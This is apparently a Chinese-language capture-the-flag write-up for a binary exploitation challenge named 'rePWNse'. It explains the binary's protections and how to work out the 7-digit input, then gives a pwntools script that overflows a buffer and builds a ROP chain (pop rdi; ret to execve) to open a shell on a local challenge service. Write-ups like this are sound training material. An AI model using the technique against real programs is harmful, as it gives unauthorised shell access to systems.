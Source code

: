 # rePWNse

## 文件分析

下载`rePWNse`, NX on, PIE off, Canary off, RELRO full
ghidra分析为64位程序

## 解题思路

`makebinsh`函数中有一个字母表和待输入的7位数字，易知else子句都是随机字母，难以组成目标；
而if子句和判断语句之外的cat语句可以组成目标，故得到2个等式和5个方程，整理得输入后的数组：

|idx|0|1|2|3|4|5|6|
|---|-|-|-|-|-|-|-|
|val|1|9|1|9|8|1|0|

~~这么臭的题还是不要罢~~

又发现存在`pop rdi; ret;` & `execve()`，回到了简单的ret2text

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 41053)
sh.sendline(b'1 9 1 9 8 1 0')
sh.recvuntil(b'is:') # skip
shstrAddr = int(sh.recvline()[2:9], 16)
popRdiAddr = 0x0040168e
execveAddr = 0x00401296
sh.sendline(b'0'*0x48 + p64(popRdiAddr) + p64(shstrAddr) + p64(execveAddr))
sh.interactive()
```

Done.
